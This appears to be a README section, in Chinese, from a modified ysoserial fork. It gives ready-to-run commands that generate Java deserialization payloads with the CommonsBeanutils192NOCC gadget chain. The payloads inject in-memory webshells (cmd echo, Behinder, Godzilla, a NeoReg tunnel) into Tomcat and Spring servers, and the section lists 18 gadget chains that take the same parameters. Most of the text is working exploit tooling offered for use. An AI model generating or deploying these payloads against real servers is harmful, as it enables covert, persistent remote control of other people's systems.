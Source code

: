 ## 内存马相关 thanks @Y4er

以CommonsBeanutils192NOCC为例：

```shell
java -jar ysoserial.jar CommonsBeanutils192NOCC "CLASS:TomcatCmdEcho"                     # TomcatCmdEcho
java -jar ysoserial.jar CommonsBeanutils192NOCC "CLASS:TomcatServletMemShellFromJMX"      # TomcatServletMemShellFromJMX
java -jar ysoserial.jar CommonsBeanutils192NOCC "CLASS:TomcatServletMemShellFromThread"   # TomcatServletMemShellFromThread
java -jar ysoserial.jar CommonsBeanutils192NOCC "CLASS:TomcatFilterMemShellFromJMX"       # TomcatFilterMemShellFromJMX     适用于tomcat7-9
java -jar ysoserial.jar CommonsBeanutils192NOCC "CLASS:TomcatFilterMemShellFromThread"    # TomcatFilterMemShellFromThread  适用于tomcat7-9
java -jar ysoserial.jar CommonsBeanutils192NOCC "CLASS:TomcatListenerMemShellFromJMX"     # TomcatListenerMemShellFromJMX
java -jar ysoserial.jar CommonsBeanutils192NOCC "CLASS:TomcatListenerMemShellFromThread"  # TomcatListenerMemShellFromThread
java -jar ysoserial.jar CommonsBeanutils192NOCC "CLASS:TomcatListenerNeoRegFromThread"    # TomcatListenerNeoRegFromThread     python neoreg.py -k fuckyou
java -jar ysoserial.jar CommonsBeanutils192NOCC "CLASS:SpringInterceptorMemShell"         # SpringInterceptorMemShell       链接shell需要使用存在的路由
java -jar ysoserial.jar CommonsBeanutils192NOCC "FILE:E:\Calc.class"                      # ClassLoaderTemplate
java -jar ysoserial.jar CommonsBeanutils192NOCC "calc"                                    # CommandTemplate                 CLASS: FILE: 不使用协议开头则默认为执行cmd
```

一键注入cmdshell、冰蝎、哥斯拉内存马，shell连接使用请查看指定类。解决了request和response包装类导致冰蝎链接失败的问题，[见issue](https://github.com/rebeyond/Behinder/issues/187)。

以下受到`Gadgets.createTemplatesImpl`影响的gadget均需要如上方式传递参数：

1. Click1
2. CommonsBeanutils1
3. CommonsBeanutils183NOCC
4. CommonsBeanutils192NOCC
5. CommonsCollections2
6. CommonsCollections3
7. CommonsCollections4
8. Hibernate1
9. JavassistWeld1
10. JBossInterceptors1
11. Jdk7u21
12. JSON1
13. MozillaRhino1
14. MozillaRhino2
15. ROME
16. Spring1
17. Spring2
18. Vaadin1
